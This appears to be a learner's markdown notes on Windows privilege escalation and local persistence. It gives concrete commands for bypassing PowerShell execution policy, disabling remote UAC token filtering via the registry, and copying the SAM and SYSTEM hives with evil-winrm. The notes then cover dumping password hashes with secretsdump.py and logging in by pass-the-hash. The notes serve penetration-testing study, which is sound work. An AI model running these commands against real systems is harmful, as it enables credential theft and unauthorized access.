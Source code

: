 ```
			- `wmic`
			- `wmic product get name,version,vendor`
			- `wmic product` may not return all installed programs
				- Depending on how those programs were installed
			- Checking shortcuts, available services, generally any trace of an existing program *not* listed is good practice
			- With the list given above, can search for any known issues with the version of the program installed
	- Tools Used in this segment
		- WinPEAS
			- Enumerates a system to uncover priv esc paths
		- PrivescCheck
			- Searches common priv esc paths
			- Alternative to WinPEAS without needing to run a binary file
			- `Set-ExecutionPolicy Bypass -Scope process -Force`
				- If execution policy restrictions need to be bypassed....
		- EWS-NG - Windows Exploit Suggester - Next Generation
			- Runs on the attack-box-machine
			- Less noise
			- systeminfo on the focused-machine will need to be run via `wes.py systeminfo.txt` on the attack-box-machine
		- `post/multi/recon/local_exploit_suggester`
	
- WINDOWS LOCAL PERSISTENCE
	- ***Assuming one has privileged access***
	- adding a User to the 'Backup Operators' group 
	- **Backup Operators** 
		- bypass DACL (Discretionary ACLs) allowing it's members with read/write access to registry keys
		- Meaning the content of SAM and SYSTEM registry hives can be copied
		- Which can then be used to recover password hashes for all users
		- Privileges
			- SeBackupPrivilege - the user can read any files in the system
			- seRestorePrivilege - the user can write any files in the system
	- NOTE:
		- **LocalAccountTokenFilterPolicy** (User Access Control) will strip any local admin account of its privileges when that account has been logged into remotely (by default).
		- While you can elevate privileges via UAC and a GUI, if you're using a tool like WinRM to remote on to the machine then you are restricted to a limited access token with no privileges
		- Disabling:
			- Registry key that has to be toggled:
			- `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
			- `whoami /groups`
		- Note - Windows localgroups that may need to be considered are:
			- `Remote Desktop Users`
			- `Remote Management Users`
			- `Backup Operators`
	- SAM and SYSTEM files exfiltration
		- Four commands, via the use of `evil-winrm`
			- `reg save hklm\system system.back`
			- `reg save hklm\sam sam.bak`
			- `download system.bak`
			- `download sam.bak`
		- Using tools like `secretsdump.py` one can do a hash dump
			- `python /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL`
		- Now do a PTH (pass the hash) login with evil-winrm
	- Different levels of **Privilege**
		- https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants
		- `secedit`
			- Command to assign privileges to users
			- export the current config to a temp file:
				- `secedit /export /cfg config.inf`
```